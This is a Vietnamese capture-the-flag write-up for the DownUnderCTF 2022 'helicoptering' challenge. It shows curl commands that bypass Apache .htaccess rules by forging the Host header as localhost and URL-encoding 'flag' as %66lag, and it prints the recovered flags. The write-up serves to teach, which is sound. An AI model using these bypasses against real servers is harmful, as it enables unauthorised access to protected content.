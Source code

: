 #WRITE-UP  DownUnderCTF 2022 -  helicoptering 

Sau khi sữ dụng lệnh curl -I http://yourdomain.com ta nhận được:

HTTP/1.1 403 Forbidden
Date: Tue, 15 Apr 2025 08:44:43 GMT
Server: Apache/2.4.54 (Debian)
Content-Type: text/html; charset=iso-8859-1

Bạn thấy một mã trạng thái 403 hoặc một số thông báo khác cho thấy bị từ chối quyền truy cập, có thể đó là vì quy tắc .htaccess chặn truy cập.

# Ở file one/.htaccess ta thấy rằng nếu Host không phải là localhost, yêu cầu sẽ bị từ chối ngay lập tức với mã trạng thái 403 Forbidden (thông qua dòng RewriteRule ".*" "-" [F])
RewriteEngine On
RewriteCond %{HTTP_HOST} !^localhost$
RewriteRule ".*" "-" [F]

Vì vậy thiết lập header Host trong yêu cầu HTTP thành localhost.

curl -i -s -k -X $'GET' -H $'Host: localhost' $'http://192.168.93.128:30026/one/flag.txt'

HTTP/1.1 200 OK
Date: Tue, 15 Apr 2025 09:02:00 GMT
Server: Apache/2.4.54 (Debian)
Last-Modified: Tue, 15 Apr 2025 06:34:43 GMT
ETag: "10-632cb5d2eec3c"
Accept-Ranges: bytes
Content-Length: 16
Content-Type: text/plain

DUCTF{thats_it_



# Ở file two/.htaccess ta thấy kiểm tra biến server THE_REQUEST, chứa toàn bộ dòng yêu cầu HTTP (ví dụ: GET /index.html HTTP/1.1). 
Điều quan trọng là quy tắc tìm kiếm sự xuất hiện của chuỗi flag trong dòng yêu cầu. Nếu tìm thấy flag, yêu cầu sẽ bị chặn (qua RewriteRule).
RewriteEngine On
RewriteCond %{THE_REQUEST} flag
RewriteRule ".*" "-" [F]

Vì vậy chúng ta cần đảm bảo rằng chuỗi flag không xuất hiện trong dòng yêu cầu. 
Nên mã hóa URL chuỗi flag, vì quy tắc .htaccess chỉ kiểm tra chuỗi flag chưa được mã hóa.
Chuỗi mã hóa URL của từ flag là %66lag

curl http://192.168.93.128:30026/two/%66lag.txt
next_time_im_using_nginx}
